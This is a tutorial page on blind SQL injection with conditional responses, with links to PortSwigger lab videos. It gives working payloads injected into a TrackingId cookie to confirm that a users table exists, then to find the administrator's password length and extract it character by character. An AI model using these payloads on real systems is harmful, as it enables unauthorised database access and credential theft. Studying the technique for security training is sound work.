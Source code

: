 Consider an application that uses tracking cookies to gather analytics about usage. Requests to the application include a cookie header like this:
```txt
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```
Which the application process and uses a SQL query to determine whether this is a known user:
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```
While this query is vulnerable to SQL Injection, the results are not returned to the user. However, the application does behave differently depending on whether the query returns any data. For example, submitting a recognized `TrackingId` will return a "Welcome back" message in the response.

This type of behavior is enough to be able to exploit blind SQL injection. You can retrieve information by triggering different responses depending on an injected condition.

Using the example above, suppose that the two following requests are sent in turn:
```txt
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4' AND '1'='1
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4' AND '1'='2
```
- The first of these values causes the query to return results, because the injected `AND '1'='1` condition is true. As a result, the "Welcome back" message is displayed.
- The second value causes the query to not return any results, because the injected condition is false. The "Welcome back" message is not displayed.
## Example Exploit
Another example, suppose you want to find out if the `users` table does exists and if there is a user account called `Administrator`.
1. You can do this by sending the following input:
```txt
...xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
```
Verify that the condition is true, confirming that there is a table called `users`.

2. Now we can change the payload to:
```txt
...xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```
Verify that the condition is true, confirming that there is a user called `administrator`.
## Example Exploit Continuation
You can also use this technique to find out the password of the user called `administrator` by sending a series of inputs to test the password length:
```txt
...xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a
```
When the condition stops being true (i.e when the "Welcome back" message disappears), we have determined the length of the password.

1. We can now then do use the same technique to find out the password one character at a time:
```txt
...xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```
Verify that the condition is true, confirming that the first password character is greater than `m`.

2. Next send the following input:
```txt
...xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```
Verify that the condition is not true, confirming that the first password character is not greater than `s`.

3. Eventually, the following input returns a "Welcome back" message, thereby confirming that the first character is `s`:
```txt
...xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
```
## Example from PortSwigger Web Academy
The video below uses the Cluster Bomb attack type
![SQL Injection - Lab #11 Blind SQL injection with conditional responses(https://img.youtube.com/vi/LBG_n9fr8sM/0.jpg)](https://www.youtube.com/watch?v=LBG_n9fr8sM)
The video below uses the Sniper attack type and manual brute forcing
![Blind SQL injection with conditional responses (Video solution, Audio)(https://img.youtube.com/vi/M5Ko7F1_co4/0.jpg) ](https://www.youtube.com/watch?v=M5Ko7F1_co4)